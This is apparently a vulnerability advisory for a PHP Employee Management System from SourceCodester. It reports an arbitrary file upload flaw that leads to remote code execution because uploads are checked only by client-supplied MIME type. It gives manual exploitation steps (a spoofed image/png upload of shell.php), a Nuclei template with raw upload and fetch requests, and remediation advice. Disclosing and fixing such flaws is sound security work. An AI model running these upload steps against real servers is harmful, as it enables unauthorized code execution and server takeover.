



### **Vulnerability Title: Employee Management System Arbitrary File Upload to RCE Vulnerability** 

------

### **I. Basic Vulnerability Information**

- **Official Website Homepage:** [Free Source Code Projects and Tutorials - sourcecodester.com](https://www.sourcecodester.com/)

- **Open Source Project Link:** [Employee Management System using PHP and MySQL | SourceCodester](https://www.sourcecodester.com/php/16999/employee-management-system.html) 

- **Context:** Sourcecodester is a well-known open-source code and application sharing platform. The affected "Employee Management System" has over 58,000 subscriptions/views on this platform.

- **Vulnerability Type:** Arbitrary File Upload leading to Remote Code Execution (RCE).

  

------

### **II. Vulnerability Description**

The application suffers from an arbitrary file upload vulnerability. An attacker (regardless of their identity or privilege level) can construct a malicious file upload request to bypass file type restrictions. This allows the attacker to upload arbitrary executable files (such as malicious PHP scripts) directly to the server. Successful exploitation can lead to Remote Code Execution (RCE) or complete server takeover, severely compromising the system's integrity and security.

------

### **III. Code Audit**

- **Vulnerable Files & Components:**

  - `Admin/edit-photo.php` (Lines 10-22) 

  

  - `Employee/edit-photo.php` (Lines 12-18) 

  - `Admin/add-admin.php` (Lines 17-30) 

    The other two vulnerability codes are similar.

- **Code Audit / Analysis:** The application attempts to validate uploaded files by checking `$_FILES['avatar']['type']`. This is fundamentally insecure because it solely relies on the MIME type provided by the client's browser, which can be easily spoofed using an interception proxy. The server performs no true validation on the file's actual content or extension. Furthermore, the `move_uploaded_file()` function saves the file into the Web directory (e.g., `uploadImage/`) using its original, un-sanitized filename (`$_FILES['avatar']['name']`), allowing `.php` files to be executed directly by the web server.

  

------

### **IV. Proof of Concept (PoC)**

#### **1. Manual Exploitation Steps**

1. Intercept the file upload request (e.g., when editing a profile photo).
2. Modify the request body to upload a malicious PHP file (`shell.php`) containing a simple payload like `<?php phpinfo(); ?>`.
3. Crucially, spoof the MIME type in the intercepted request by setting `Content-Type: image/png` for the uploaded file part to bypass the flawed validation.
4. Forward the request. The file is successfully saved to the server.
5. Navigate directly to the uploaded file's URL: `http://employee_akpoly.test/uploadImage/shell.php`.
6. **Result:** The PHP code executes successfully, demonstrating RCE.




#### **2. Automated Detection (Nuclei Template)**

To verify the vulnerability, the following Nuclei template can be utilized:

- **Command:** `nuclei -u http://[Target_URL] -t upload_poc.yaml` 
- **YAML Template (`upload_poc.yaml`):**

```yaml
id: akpoly-file-upload-safe-check
info:
  name: Employee System Arbitrary File Upload
  author: local-tester
  severity: critical
http:
  - raw:
      - |
        POST /Admin/edit-photo.php HTTP/1.1
        Host: {{Hostname}}
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTest
        Cookie: PHPSESSID=bkmo7mdi9o2fi94gs8a36dr65g

        ------WebKitFormBoundaryTest
        Content-Disposition: form-data; name="avatar"; filename="hack.php"
        Content-Type: image/png

        nuclei_vuln_proof_12345
        ------WebKitFormBoundaryTest
        Content-Disposition: form-data; name="btnsave"

        ------WebKitFormBoundaryTest--

      - |
        GET /uploadImage/hack.php HTTP/1.1
        Host: {{Hostname}}
        Accept: */*

    req-condition: true
    matchers:
      - type: word
        part: body_2
        words:
          - "nuclei_vuln_proof_12345"
```



------

### **V. Remediation / Solutions**

1. **Vendor Patching / Upgrade:** It is strongly recommended to contact the vendor to request a security patch or upgrade to a secure version immediately.
2. **Deploy Web Application Firewall (WAF):** Implement a WAF to inspect and block malicious file uploads and common RCE payload signatures.
3. **Restrict Access:** Minimize the application's internet exposure surface or implement strict access control settings on the affected interfaces.
4. **Secure Code Remediation (Developer Action):** * Completely abandon reliance on client-provided MIME types (`$_FILES['file']['type']`).
   - Implement a strict server-side whitelist for file extensions (e.g., only allow `.jpg`, `.png`).
   - Use functions like `finfo_file()` to verify the true magic bytes of the uploaded file.
   - Forcefully rename all uploaded files using randomly generated strings (e.g., UUIDs) to prevent predictable paths and extension execution.